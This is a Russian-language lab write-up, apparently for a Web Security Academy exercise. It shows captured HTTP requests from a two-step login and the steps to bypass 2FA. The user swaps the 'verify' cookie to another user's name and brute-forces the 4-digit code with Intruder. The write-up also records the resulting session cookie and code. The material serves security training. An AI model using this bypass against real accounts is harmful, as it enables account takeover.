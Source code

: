 
# Разведка

- При входе в аккаунт мы проходим через:
1. Отправляем логин и пароль
```
POST /login HTTP/1.1
Host: 0a8d00f70450887e82da255800da0009.web-security-academy.net
Cookie: session=WdJdqtZARrdT9lyex8vMKFgLCg5vzv7P
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a8d00f70450887e82da255800da0009.web-security-academy.net
Referer: https://0a8d00f70450887e82da255800da0009.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=wiener&password=peter
```
2. Получаем куки файлы назначенные для входа в наш аккаунт
```
GET /login2 HTTP/2
Host: 0a8d00f70450887e82da255800da0009.web-security-academy.net
Cookie: session=125GYD0JVuTrYttWAl62nuir4eBPcABw; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a8d00f70450887e82da255800da0009.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

```
3. Отправка пароля для "2Fa" аутентификации
```
POST /login2 HTTP/2
Host: 0a8d00f70450887e82da255800da0009.web-security-academy.net
Cookie: session=125GYD0JVuTrYttWAl62nuir4eBPcABw; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0a8d00f70450887e82da255800da0009.web-security-academy.net
Referer: https://0a8d00f70450887e82da255800da0009.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

mfa-code=0907
```
4. Получаем доступ к нашему аккаунту
```
GET /my-account?id=wiener HTTP/2
Host: 0a8d00f70450887e82da255800da0009.web-security-academy.net
Cookie: session=exjJhKS6OwlYXJn0ycSAXE4kvk52g3Kk; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a8d00f70450887e82da255800da0009.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```

- Cookie сессия не привязана к verify и куки возрвращается в ответе при логине

# Атака

1. При изменение запросов и ответов в любой части формировании сессии не увенчались успехом
2. Вариант брута, проверить раз verify не привязан к куки то можно попробовать зайти на 2 часть аутентификации и забрутить все 4-значные числа так как при прошлых проверках данные отправлялись лишь в формате 4-значных чисел
	
	2.1 Зайти под своей учётке 
	2.2 Изменить в GET методе verify=wiener на claros чтоб сформировать код
	2.3 Изменить в POST методе verify=wiener на claros 
	2.4 Через Intruder пробрутить числа вериф

	куки для carlos Kb53kVIljvGt0uT4MdrUDXr0IedV7KgZ
	пароль для carlos 1526
	






